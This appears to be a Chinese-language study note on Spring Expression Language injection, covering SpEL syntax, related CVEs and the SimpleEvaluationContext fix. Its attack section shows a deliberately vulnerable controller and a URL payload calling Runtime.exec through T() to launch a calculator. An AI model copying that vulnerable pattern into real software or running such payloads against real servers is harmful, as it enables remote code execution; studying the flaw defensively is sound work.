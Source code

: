 # 0x01 What Is SpEL

SpEL：Spring Expression Language 一种表达式语言，支持在运行时查询和操作对象图。
类似于EL表达式，感觉就是简洁化的Java代码。

SpEL 的诞生是为了给 Spring 社区提供一种能够与Spring 生态系统所有产品无缝对接，能提供一站式支持的表达式语言。

SpEL基本语法：
SpEL使用 `#{...}`作为定界符，大括号内被视为SpEL表达式，里面可以使用运算符，变量，调用方法等。使用 `T()` 运算符会调用类作用域的方法和常量，如`#{T(java.lang.Math)}`返回一个java.lang.Math类对象

SpEL常用在三个地方。

1. Value注解
   （注：这个类要通过依赖注入才能使Value注解生效，直接new对象是不行的）

   ```java
   package com.example.demo1.bean;
   
   import org.springframework.beans.factory.annotation.Value;
   import org.springframework.context.annotation.PropertySource;
   import org.springframework.stereotype.Component;
   
   @Component
   @PropertySource({"classpath:/configure.properties"})
   public class User {
       @Value("${spring.user.name}")
       public String userName; // 值来自application.properties
       @Value("${home.dorm}")
       public String address; // 值来自configure.properties(放在resources文件夹下)
       @Value("#{T(java.lang.Math).random()}")
       public double age;
       @Value("#{systemProperties['os.name']}")
       public String sys; // 注入操作系统属性
   }
   ```

   ```xml
   // configure.properties
   home.dorm=Room402,Unit4,Building3,No.34.LousyLoad
   // application.properti
   spring.user.name=Taco
   ```

   输出如下：
   `User{userName='Taco', address='Room402,Unit4,Building3,No.34.LousyLoad', age=0.5913714334107036, sys='Windows 10'}`

2. XML
   ```xml
   <bean id="Book" class="com.example.bean">
   	<property name="author" value="#{表达式}">
   </bean>
   ```

3. Expression接口
   ```java
   @Test
   public void spelTest() {
       ExpressionParser parser = new SpelExpressionParser();
       Expression expression = parser.parseExpression("('Hello '+'SpEL').concat(#end)");
       EvaluationContext context = new StandardEvaluationContext();
       context.setVariable("end", "!");
       System.out.println(expression.getValue(context));
   }
   ```

   输出`Hello SpEL!`

# 0x02 Way To Attack

实际情况下，一般都是基于上面第三种SpEL的使用场景出现的漏洞。
下面简单分析一下SpEL在求表达式值的过程

> 1.创建解析器 new SpelExpressionParser()
> 2.解析表达式 parseExpression(your_expression)
> 3.构造上下文 new StandardEvaluationContext() 默认为这个
> 4.求值 expression.getValue(context)

漏洞利用前提

> 1.服务器接收用户输入的表达式
> 2.表达式解析之后调用了getValue
> 3.使用StandardEvaluationContext作为上下文对象

```java
@RestController
public class SpELController {
    @GetMapping("spel")
    public String spel(@RequestParam(name="cmd")String cmd) {
        System.out.println("Hello SpEL!!!");
        ExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression(cmd);
        Object obj = expression.getValue();
        return obj.toString();
    }
}
```

这段代码中，可注入的点在请求参数cmd
访问`http://localhost:8080/spel?cmd=T(java.lang.Runtime).getRuntime().exec(%27calc%27)`
成功弹出计算器

# 0x03 CVE To Study

* CVE-2022-22980 Spring Data MongoDB SpEL表达式注入
* CVE-2022-22963 SpringCloud Function SpEL表达式注入
* CVE-2022-22947 Spring Cloud Gateway 远程代码执行

# 0x04 Patch

`SimpleEvaluationContext`、`StandardEvaluationContext` 是 SpEL提供的两个 `EvaluationContext`

`SimpleEvaluationContext` 旨在仅支持 SpEL 语言语法的一个子集。它不包括 Java 类型引用，构造函数和 bean 引用

用`SimpleEvaluationContext`替换默认的`StandardEvaluationContext`，就能有效防止恶意SpEL表达式的执行。

